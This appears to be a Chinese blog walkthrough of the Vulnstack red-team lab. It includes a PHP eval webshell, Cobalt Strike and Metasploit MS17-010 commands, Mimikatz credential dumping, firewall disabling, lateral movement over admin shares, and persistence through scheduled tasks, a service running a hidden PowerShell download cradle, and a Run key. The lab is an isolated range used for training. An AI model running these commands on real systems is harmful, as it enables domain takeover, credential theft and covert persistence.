

# 一、环境搭建

## 拓扑图

		

<br>

## 用户配置

Vulnstack靶场有两个默认用户, 分别是域成员`liukaifeng01`和域管理员用户`Administrator`， 其默认密码均为`hongrisec@2019`

首次登录会要求用户修改密码, 除此之外我还新添加了个`test1`用户用于登录win2003主机

所有的用户信息如下表格所示：

| 登录主机             | 用户          | 密码      |
| -------------------- | ------------- | --------- |
| win2008 (域控服务器) | Administrator | QWEasd123 |
| win7-1 (web服务器)   | liukaifeng01  | qQ123456  |
| win2003 (域内主机)   | test1         | qQ123456  |

<br>

## 虚拟主机配置信息

| 虚拟机                                   | 网卡信息        | ip                                       |
| ---------------------------------------- | --------------- | ---------------------------------------- |
| Kali linux (用于搭建CS服务器和MSF服务器) | NAT             | 192.168.47.134                           |
| win7 (攻击机)                            | NAT             | 192.168.47.133                           |
| win7-1 (web服务器)                       | NAT<br />VMnet3 | 192.168.47.148<br /><br />192.168.52.143 |
| win2008 (域控服务器)                     | VMnet3          | 192.168.52.138                           |
| win2003 (域内主机)                       | VMnet3          | 192.168.52.141                           |

<br>

下图为`VMnet3`网卡的配置信息, 配置的子网IP为`192.168.52.0`, 设置为仅主机模式

	

<br>

下图为NAT模式的`VMnet8`网卡配置信息, 配置的子网IP为`192.168.47.0`

	

<br>

## 网络连接配置

域控的网络连接配置如下：

	

<br>

Web服务器有两个网卡, 其中一个网卡是用于Web服务器与域内主机进行数据交互, 此网卡需将DNS服务器地址设置成域控服务器地址, 其他域内成员的网络配置亦是如此, 这里就不详细描述了

	

<br>

## 配置web网站

在web服务器(win7)找到`phpstudy\www`目录, `yxcms`就是搭建在外网的网站源码

	

<br>

找到phpstudy的站点域名设置, 将网站目录设置成yxcms目录的绝对路径, 网站端口设置成`81`, 网站域名可随意设置, 这里我设置成`www.henry404.net`, 然后点击修改, 再点击保存设置并生成文件

	

<br>

修改Web服务器的`hosts`文件, 将本机的ip绑定如上设置好的域名

> 为什么要给192.168.52.143绑定域名? —— 为了让攻击机能够解析域名
>
> 修改hosts文件时可能要管理员权限, 需要先给当前用户赋予修改host文件的权限,此处不详细描述


<br>	

攻击机的hosts文件也要修改成与上述一致

	

<br>

web服务器启动phpstudy, 然后在攻击机使用浏览器访问`www.henry404.net:81`, 若出现如下图所示的页面则代表网站配置成功

	

<br>

# 二、渗透web服务器

## 1.拿下网页后台

访问配置好的网站,在其公告信息已经说明了网站的后台目录(`/index.php?r=admin`)以及管理员的账号密码(`admin,123456`)

	

<br>

访问网站后台页面(`www.henry404.net:81/index.php?r=admin`), 输入账号密码登录后台


<br>

## 2.写入webshell

点击前台模板->管理模板文件, 随后会显示前台的php模板文件

		


<br>

点击右上角的新建按钮, 新建一个前台模板文件并写入webshell(`<?php @eval($_POST['cmd']);?>`), 随后点击创建

	

<br>

## 3.连接webshell

此处不详细讲述如何寻找webshell文件的网页路径, 毕竟此靶场是以内网渗透为主

webshell的网页路径为:`http://www.henry404.net:81/protected/apps/default/view/default/test.php`, 使用蚁剑连接webshell, 即可对网站进行接下来的渗透


<br>

## 4.远程命令执行CS上线

此处不演示CS服务的搭建过程, 如果想了解Cobalt Strike的相关操作可以翻阅我博客发布的CS系列文章

先使用CS客户端生成一个可执行程序木马, 然后通过蚁剑将其上传至网站服务器上, 这里选择上传至`phpstudy/WWW`目录

> 上传至C盘目录可能会因为权限问题导致上传失败

	

	

<br>	

在木马所在目录打开终端, 输入`artifact.exe`运行上传的木马程序	


<br>

返回CS客户端查看Web服务器上线情况


<br>		

# 三、内网渗透

## 信息收集	

### 收集域内信息	

**1.查看网关的ip地址, DNS的ip地址、域名等等: `shell ipconfig /all`**

- 主机名: win7-1
- 主域: god.org
- 网卡1的ip: 192.168.47.149; 网卡2的ip: 192.168.47.143
- DNS服务器: 192.168.52.138

	

<br>

**2.列出当前域控的主机列表: `net view`**

- OWA(192.168.52.138)
- ROOT-TVI862UBEH(192.168.52.141)
- WIN7-1(192.168.52.143)

	

<br>

**3.列出当前域的域控: `net dclist`**

当前的域控是OWA(192.168.52.138)

	

<br>

**4.查看当前主机的共享列表: `net share \\[主机名]`**

可以发现当前主机默认开启了C盘共享功能

	


### 收集用户信息

**1.查看当前主机的用户列表: `shell net user`**

	

<br>

**2.查看当前主机的登录用户: `shell echo %username%`**

	

<br>	

**3.判断当前用户是否属于管理员组: `shell whoami/groups`**

这里并没有发现liukaifeng01的所在组别, builtin是内建用户

> 内建用户: 系统刚安装完成时所创建的用户, 并非当前登录用户


​		

**4.查询本地管理员组的用户: `shell net localgroup administrators`**

可发现liukaifeng01属于本地管理员组

	

<br>

**5.查看当前域内所有用户: `shell net user /domain`**

	


<br>

### 尝试获取用户账号密码

由于当前用户liukaifeng01属于管理员组, 可以对其使用ms14-058提权模块, 提权后会返回一个SYSTEM权限的用户

	

<br>

对拥有SYSTEM权限的会话运行Mimikatz, 随后在beacon命令行会返回用户的账号信息




<br>

当然在`视图->凭证信息`查看用户数据会更加清晰明了

- 域管理员账号密码: Administrator/QWEasd123
- 当前用户账号密码: liukaifeng01/qQ123456


<br>

## 横向移动

### 漏洞扫描

上传`ladon`工具至Web服务器上的C盘上


<br>

随后在beacon命令行输入:`shell ladon.exe 192.168.52.0/24 MS17010`, 扫描Web服务器所处C段的IP是否存在MS17010漏洞

	

发现有三台主机存在MS17010漏洞, 且其中一台主机(192.168.52.138)是域控服务器

<br>

### 漏洞利用

为了将kali的MSF杀进内网, 我们要在Web服务器开启socks4代理, 走1080端口, beacon命令行输入: `socks 1080`

		

> Socks 代理相应的采用 Socks 协议, 代理服务器就是 Socks 服务器，这是一种通用的代理服务器。代理服务器是指位于使用者和服务器之间的计算机。通过拦截发送方和接收方之间的连接来工作。重要的是可以隐藏用户实际IP地址保护用户信息安全

<br>

在MSF设置socks4代理服务器以及开通双向隧道

```
msf > setg proxies socks4:192.168.47.134:1080  #配置msf的socks代理服务器
msf > setg ReverseAllowProxy true #开启双向隧道
```

	

<br>

使用`auxiliary/admin/smb/ms17_010_command`针对MS17010漏洞执行远程命令进行关闭防火墙

> 关闭防火墙的Dos命令: `netsh advfirewall set allprofiles state off`
>
> 查看防火墙状态的Dos命令: `netsh advfirewall show allprofiles`

```
msf5 > use auxiliary/admin/smb/ms17_010_command  #使用ms17010远程命令执行模块

msf5 auxiliary(admin/smb/ms17_010_command) > set rhosts 192.168.52.138  #设置目标主机ip

msf5 auxiliary(admin/smb/ms17_010_command) > set command netsh advfirewall set allprofiles state off #设置远程执行的命令(此处命令是关闭防火墙)

msf5 auxiliary(admin/smb/ms17_010_command) > run #开启攻击
```

	

<br>

执行远程命令开启3389端口(远程服务), 发现远程服务开启失败

```
msf5 auxiliary(admin/smb/ms17_010_command) > set command REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f

msf5 auxiliary(admin/smb/ms17_010_command) > run
```

> 开启远程服务的Dos命令: `REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f`
>
> 查询3389端口是否打开的Dos命令: `netstat -an | find "3389"`


<br>

接下来攻击域内成员win2003主机, 这次使用`exploit/windows/smb/ms17_010_psexec`模块, 返回目标主机的meterpreter会话(MSF上线)

```
set rhost 192.168.52.141  #设置目标主机

set payload windows/meterpreter/bind_tcp  #设置监听协议

set lhost 192.168.47.134  #设置MSF的服务器IP

set lport 7777 #设置监听端口

run
```

		

<br>

### 生成跳板木马

由于CS服务器无法与域控服务器进行数据交互, 只能与web服务器进行数据交互, 因此要将web服务器作为跳板来实现CS服务器与域控服务器之间的数据交互

创建跳板监听: `鼠标右键单击用户->中转->listener`

> 监听的IP应为跳板主机的内网ip(能够与域控进行通讯)


	

<br>

在生成后门处选择`Windows Executable(S)`, 即生成**无状态木马**, 然后上传至Web服务器的C盘目录

> Windows 带有生成出的是stageless版本(无状态Windows后门木马)，下面简单说下这个无状态木马的使用方法。一般使用无状态木马的网络环境是这样的
>
> 	
>
> 如果开启了防火墙可能会产生安全警告，最好提前用cmd关闭防火墙或者新建放行规则，然后便可以将无状态木马放入到其他内网机器中执行

	

	

<br>

### 域内文件传输	

通过创建C盘共享将生成的无状态木马传送至域控服务器

与目标IP实现C盘共享: `shell net use \\192.168.52.138\c$ "QWEasd123" /user:"Administrator"`


<br>

将Web服务器C盘的无状态木马拷贝至域控服务器C盘处: `shell copy c:\\beacon.exe \\192.168.52.138\c$`

	

<br>

查看域控的C盘目录: `shell dir \\192.168.52.138\c$`, 判断木马是否拷贝成功

	

<br>

返回MSF界面, 利用ms17010漏洞远程命令执行C盘的无状态木马: `set command c:\\beacon.exe`


<br>

随后在cs客户端查看域控服务器的上线情况		


<br>

## 权限维持		

### 创建计划任务

使用`schtasks`命令远程创建计划任务执行后门程序, 前提要知道远程主机的管理员账号密码

```
schtasks /create /s 192.168.52.138 /u Administrator /p QWEasd123 /ru "SYSTEM" /tn test /sc DAILY /st 20:45 /tr C:\\beacon.exe /F
```

> /ru: 运行该任务的用户, 对于系统帐户，有效值是 ""、"NT AUTHORITY\SYSTEM" 或"SYSTEM"
>
> /tn: 任务名称
>
> /sc: 任务执行频率, 其中daily表示每天执行
>
> /tr: 要执行的文件
>
> /F: 强制执行任务

<br>

查看域控服务器的任务计划程序, 可发现刚创建的后门计划任务

	

<br>

若要清除计划任务执行以下命令

```
schtasks /delete /s 192.168.52.138 /tn "test" /f
```

<br>

### 创建windows服务

使用sc命令创建一个名为"name"的服务, 设置开机后门脚本程序自启动, 注意将powershell命令行替换成自己的

```
shell sc create "name" binpath= "cmd /c start powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.47.134:80/a'))\""
```

<br>

设置name服务自启动		

```
shell SC config "name" start= auto
```

<br>

设置服务的描述内容

```
shell SC description "name" "description"
```

<br>

启动服务

```
shell net start "name"
```

<br>

删除服务

```
shell SC delete "name"
```

<br>

### 创建注册表后门

将`/d`后的文件路径修改成后门程序的路径

```
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v "Keyname" /t REG_SZ /d "C:\\beacon.exe" /f
```

<br>

# 总结

## 1.`ms17_010_psexec`模块的利用条件

- 防火墙必须允许SMB流量出入
- 目标必须使用SMBv1协议
- 目标必须缺少MS17-010补丁
- 目标必须允许匿名IPC $和管道名


## 2.使用`ms17_010_psexec`模块有几率导致蓝屏

<br>

## 3.开启远程服务和关闭防火墙需要管理员权限

<br>
